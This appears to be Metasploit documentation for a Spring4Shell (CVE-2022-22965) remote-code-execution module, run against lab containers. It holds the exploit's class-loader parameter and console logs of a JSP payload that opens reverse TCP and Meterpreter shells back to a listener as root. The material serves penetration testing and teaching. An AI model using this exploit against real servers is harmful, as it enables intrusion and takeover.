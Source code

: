 ## Vulnerable Application

Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions when running on JDK 9 or above
and specifically packaged as a traditional WAR and deployed in a standalone Tomcat instance are vulnerable
to remote code execution due to an unsafe data binding used to populate an object from request parameters
to set a Tomcat specific ClassLoader. By crafting a request to the application and referencing the
org.apache.catalina.valves.AccessLogValve class through the classLoader with parameters such as the following:
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp, an unauthenticated attacker can
gain remote code execution.

## Verification Steps

1. Build the application
   1. `git clone https://github.com/vleminator/Spring4Shell-POC`
   2. `docker build . -t spring4shell`
2. Run the application
   1. `docker run -p 8085:8080 spring4shell`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_framework_rce_spring4shell`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options
### HTTP_METHOD
HTTP method to use for checking and exploitation. If set to `Automatic` (the default value), the method will be
automatically identified. Automatically identifying the HTTP method uses the check method.

### PAYLOAD_PATH
Path to write the payload. This is relative to the tomcat installation directory.

## Scenarios

### Target Java (vulhub container)

The target is the [vulhub container](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965) which uses the
GET HTTP method.

```
msf6 > use exploit/multi/http/spring_framework_rce_spring4shell
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting                 Required  Description
   ----          ---------------                 --------  -----------
   HTTP_METHOD   Automatic                       no        HTTP method to use (Accepted: Automatic, GET, POST)
   PAYLOAD_PATH  webapps/ROOT                    yes       Path to write the payload
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080                            yes       The target port (TCP)
   SSL           false                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                               yes       The path to the application action
   VHOST                                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set PAYLOAD java/jsp_shell_reverse_tcp
PAYLOAD => java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit http://192.168.159.128:8080/

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Automatically identified HTTP method: GET
[*] 192.168.159.128:8080 - Generating JSP...
[*] 192.168.159.128:8080 - Modifying Class Loader...
[*] 192.168.159.128:8080 - Waiting for the server to flush the logfile
[*] 192.168.159.128:8080 - Executing JSP payload at http://192.168.159.128:8080/MUpts6425.jsp
[+] 192.168.159.128:8080 - Log file flushed
[*] Command shell session 1 opened (192.168.250.134:4444 -> 172.19.0.2:47418 ) at 2022-05-05 10:47:50 -0400

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/local/tomcat
```

### Target Linux (x64)

The target is the [vleminator container](https://github.com/vleminator/Spring4Shell-POC) which uses the
POST HTTP method.

```
msf6 > use exploit/multi/http/spring_framework_rce_spring4shell
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set TARGET Linux
TARGET => Linux
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting                 Required  Description
   ----          ---------------                 --------  -----------
   HTTP_METHOD   Automatic                       no        HTTP method to use (Accepted: Automatic, GET, POST)
   PAYLOAD_PATH  webapps/ROOT                    yes       Path to write the payload
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080                            yes       The target port (TCP)
   SSL           false                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /app/example/HelloWorld.action  yes       The path to the application action
   VHOST                                         no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit http://192.168.159.128:8085/helloworld/greeting

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Automatically identified HTTP method: POST
[*] 192.168.159.128:8085 - Generating JSP...
[*] 192.168.159.128:8085 - Modifying Class Loader...
[*] 192.168.159.128:8085 - Waiting for the server to flush the logfile
[*] 192.168.159.128:8085 - Executing JSP payload at http://192.168.159.128:8085/S0J17.jsp
[+] 192.168.159.128:8085 - Log file flushed
[*] Sending stage (3020772 bytes) to 172.17.0.2
[+] Deleted /tmp/6DKA
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 172.17.0.2:54902 ) at 2022-05-05 10:52:35 -0400

meterpreter > getuid
Server username: root
meterpreter > pwd
/helloworld
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.2 (Linux 5.17.4-100.fc34.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
